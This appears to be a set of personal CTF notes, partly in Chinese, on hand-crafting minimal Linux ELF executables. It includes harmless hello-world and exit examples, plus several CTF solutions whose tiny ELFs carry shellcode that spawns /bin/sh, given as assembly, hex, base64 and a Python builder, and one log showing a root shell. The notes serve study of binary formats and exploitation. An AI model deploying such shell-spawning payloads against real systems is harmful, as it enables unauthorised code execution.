




# Mini Linux ELF File

‍

‍

> 关于为 Linux 创建非常小的 ELF 可执行文件

‍

## 输出

‍

```x86asm
BITS 32
    org 0x05430000
    db 0x7F, "ELF"
    dd 1
    dd 0
    dd $$
    dw 2
    dw 3
    dd _start
    dw _start - $$
_start:
    inc  ebx                ; 1 = stdout file descriptor
    add eax, strict dword 4 ; 4 = write system call number
    mov ecx, msg            ; Point ecx at string
    mov dl, 13              ; Set edx to string length
    int 0x80                ; eax = write(ebx, ecx, edx)
    and eax, 0x10020        ; al = 0 if no error occurred
    xchg eax, ebx           ; 1 = exit system call number
    int 0x80                ; exit(ebx)
msg:
    db  'hello, world', 10
```

‍

```python
nasm -f bin -o hello hello.asm && chmod +x hello && ./hello
```

‍



‍

## mini-elf1

- 2023-07-19-AmateursCTF pwn-ELFcrafting

‍

```x86asm
BITS 32
    org 0x00010000
    db 0x7F, "ELF"
    dd 1
    dd 0
    dd $$
    dw 2
    dw 3
    dd _start
    dd _start
    dd 4
_cont:
    mov dl, 0xff
    int 0x80
    mov ebx, eax
    mov al, 3
    jmp _end
    dw 0x20
    dw 1
_start:
    mov al, 11
    mov ebx, string_start
    int 0x80
_end:
    mov ecx, esp
    int 0x80
    xor ebx, ebx
    mov al, 4
    int 0x80
string_start:
    db "/bin/sh"
string_len equ $ - string_start
filesize equ $ - $$
```

‍

```python
nasm -f bin -o Execve Execve.asm && chmod +x Execve && hexdump -C Execve


nasm -f bin -o m.bin mnelf.asm && chmod +x m.bin && hexdump -C m.bin
```



‍

```python
elf = "7f454c46010000000000000000000100020003002e0001002e00010004000000b2ffcd8089c3b003eb0d20000100b00bbb41000100cd8089e1cd8031dbb004cd802f62696e2f7368"
```

‍

‍

## mini-elf2

- AmateursCTF2024-summit

```bash
➜  summit echo -n 'f0VMRg8FSI15NuscAQAAAAMAPgAMAAAAAAAAAAwAAAAMAAAAAAAAADHAsDsPBQAAAAAAAEAAOAABAAAAL2Jpbi9zaAAAAADruw=='|base64 -d |hexdump -C
00000000  7f 45 4c 46 0f 05 48 8d  79 36 eb 1c 01 00 00 00  |.ELF..H.y6......|
00000010  03 00 3e 00 0c 00 00 00  00 00 00 00 0c 00 00 00  |..>.............|
00000020  0c 00 00 00 00 00 00 00  31 c0 b0 3b 0f 05 00 00  |........1..;....|
00000030  00 00 00 00 40 00 38 00  01 00 00 00 2f 62 69 6e  |....@.8...../bin|
00000040  2f 73 68 00 00 00 00 eb  bb                       |/sh......|
00000049
```



‍

‍

## mini-elf3

2024-10-05-BRISC+CTF-Misc-shELFing

```bash
➜  test ./elf.bin
# ^C
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
➜  test hexdump -C elf.bin
00000000  7f 45 4c 46 48 bf 2f 62  69 6e 2f 2f 73 68 eb 04  |.ELFH./bin//sh..|
00000010  02 00 3e 00 52 57 eb 18  01 00 00 00 01 00 00 00  |..>.RW..........|
00000020  18 00 00 00 00 00 00 00  18 00 00 00 01 00 00 00  |................|
00000030  54 6a 3b 58 eb 12 38 00  01 00 00 00 00 00 00 00  |Tj;X..8.........|
00000040  01 00 00 00 00 00 00 00  5f 99 0f 05 00 00 00 00  |........_.......|
00000050
```

```python
#!/usr/bin/env python3

import binascii
import base64

elf_data = binascii.unhexlify("7f454c46")
elf_data += binascii.unhexlify("48bf2f62696e2f2f7368eb04") # movabs $0x68732f2f6e69622f,%rdi, jmp +4
elf_data += binascii.unhexlify("02003e00")
elf_data += binascii.unhexlify("5257eb18") # 5257 - push rdx, push rdi, jmp +0x18
elf_data += binascii.unhexlify("01000000")
elf_data += binascii.unhexlify("010000001800000000000000")
elf_data += binascii.unhexlify("1800000001000000")
elf_data += binascii.unhexlify("546a3b58eb12") # push rsp; push 0x3b; pop rax; jmp +0x12
elf_data += binascii.unhexlify("38000100")
elf_data += binascii.unhexlify("0000000000000100000000000000")
elf_data += binascii.unhexlify("5f990f0500000000") # pop rdi; cdq; syscall

print(base64.b64encode(elf_data[:-4]))

fd = open('elf.bin', 'wb')
fd.write(elf_data)
fd.close()
```

‍

## mini-elf4

2024 backdoorCTF-happy_golfing

‍

‍

## link

```bash

https://blog.stalkr.net/2014/10/tiny-elf-3264-with-nasm.html

https://blingblingxuanxuan.github.io/2024/01/29/240129-the-smallest-elf/
```

‍

((20241007143209-nh1rh9o "Misc-shELFing"))

‍

## asm elf

‍

```x86asm
; nasm -f bin -o tiny64 tiny64.asm
BITS 64
  org 0x400000
 
ehdr:           ; Elf64_Ehdr
  db 0x7f, "ELF", 2, 1, 1, 0 ; e_ident
  times 8 db 0
  dw  2         ; e_type
  dw  0x3e      ; e_machine
  dd  1         ; e_version
  dq  _start    ; e_entry
  dq  phdr - $$ ; e_phoff
  dq  0         ; e_shoff
  dd  0         ; e_flags
  dw  ehdrsize  ; e_ehsize
  dw  phdrsize  ; e_phentsize
  dw  1         ; e_phnum
  dw  0         ; e_shentsize
  dw  0         ; e_shnum
  dw  0         ; e_shstrndx
  ehdrsize  equ  $ - ehdr
 
phdr:           ; Elf64_Phdr
  dd  1         ; p_type
  dd  5         ; p_flags
  dq  0         ; p_offset
  dq  $$        ; p_vaddr
  dq  $$        ; p_paddr
  dq  filesize  ; p_filesz
  dq  filesize  ; p_memsz
  dq  0x1000    ; p_align
  phdrsize  equ  $ - phdr
 
_start:
  mov rax, 231 ; sys_exit_group
  mov rdi, 42  ; int status
  syscall
 
filesize  equ  $ - $$
```

‍

```bash
$ nasm -f bin -o tiny64 tiny64.asm
$ chmod +x tiny64
$ ./tiny64
$ echo $?
42
$ wc -c tiny64
142 tiny64
```


